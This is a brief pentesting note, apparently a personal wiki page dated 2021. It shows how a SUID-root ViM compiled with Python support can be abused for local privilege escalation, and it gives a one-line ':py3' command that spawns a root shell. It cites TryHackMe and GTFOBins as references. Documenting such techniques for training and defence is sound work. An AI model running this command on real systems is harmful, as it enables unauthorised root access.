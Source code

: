 # Exploiting ViM

If ViM is SUID root *and* is compiled with Python support, it can be used for privilege escalation.

```bash
vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

NOTE: Use `:py` instead if only Python 2 is available.

## References

* [Basic Pentesting](tryhackme-basic-pentesting.md)
* [GTFOBins: vim](https://gtfobins.github.io/gtfobins/vim/)

- - - -

👤 Nathan Acks  
📅 November 4, 2021
